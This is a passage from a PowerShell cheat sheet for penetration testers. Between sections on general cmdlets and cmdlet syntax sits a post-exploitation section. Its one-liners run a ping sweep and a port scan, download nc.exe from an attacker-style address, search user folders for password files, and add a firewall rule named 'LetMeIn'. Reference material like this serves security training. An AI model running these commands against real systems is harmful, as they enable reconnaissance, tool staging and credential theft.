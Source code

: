 ```
PS C:\> Get-FileHash -Algorithm SHA1 file.txt
```

**Exporting output to CSV:**
```
PS C:\> Get-Process | Export-Csv procs.csv
```

PowerShell for Pen-Tester Post-Exploitation
---------

**Conduct a ping sweep:**
```
PS C:\> 1..255 | % {echo "10.10.10.$_";ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}
```

**Conduct a port scan:**
```
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null
```

**Fetch a file via HTTP (wget in PowerShell):**
```
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe")
```
**Find all files with a particular name:**
```
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```

**Get a listing of all installed Microsoft Hotfixes:**
```
PS C:\> Get-HotFix
```

**Navigate the Windows registry:**
```
PS C:\> cd HKLM:\
PS HKLM:\> ls
```

**List programs set to start automatically in the registry:**
```
PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run
```
**Convert string from ascii to Base64:**
```
PS C:\>[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("PSFTW!"))
```

**List and modify the Windows firewall rules:**
```
PS C:\> Get-NetFirewallRule –all
PS C:\> New-NetFirewallRule -Action Allow -DisplayName LetMeIn -RemoteAddress 10.10.10.25
```

Syntax
---------
Cmdlets are small scripts that follow a dashseparated
verb-noun convention such as "Get-Process".
**Similar Verbs with Different Actions:**
- **New-** Creates a new resource
- **Set-** Modifies an existing resource
- **Get-** Retrieves an existing resource
- **Read-** Gets information from a source, such as a file
- **Find-** Used to look for an object
- **Search-** Used to create a reference to a resource
- **Start-** (asynchronous) begin an operation, such as starting a process
- **Invoke-** (synchronous) perform an operation such as running a command

